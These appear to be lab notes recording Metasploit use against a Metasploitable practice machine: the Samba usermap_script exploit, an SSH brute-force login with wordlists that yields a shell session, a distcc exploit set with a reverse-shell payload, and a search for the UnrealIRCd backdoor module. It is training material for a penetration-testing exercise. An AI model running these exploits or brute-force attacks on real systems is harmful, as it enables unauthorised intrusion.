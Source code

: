 ```
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 exploit(multi/samba/usermap_script) > run
```

## SSH : bruteforce attack

msfconsole
```
search ssh
msf6 exploit(multi/samba/usermap_script) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set  PASS_FILE /home/kali/dev/exploits_files/passwords.txt
PASS_FILE => /home/kali/dev/exploits_files/passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/kali/dev/exploits_files/usernames.txt
USER_FILE => /home/kali/dev/exploits_files/usernames.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  2         shell linux  SSH kali @   <kali ip>:34681 -> <metasploitable ip>:22  (<metasploitable ip>)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[-] Invalid session identifier: 1
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
```

## Exploits challenge
tools : nmap, msfconsole, google

21/tcp   open  ftp         vsftpd 2.3.4
```
msf6 auxiliary(scanner/ftp/anonymous) > search ftp scan
msf6 auxiliary(scanner/ftp/anonymous) > use auxiliary/scanner/ftp/ftp_version
msf6 auxiliary(scanner/ftp/anonymous) > search distc

msf6 auxiliary(scanner/ftp/anonymous) > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 auxiliary(scanner/ftp/ftp_version) > search UnrealIRCd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


```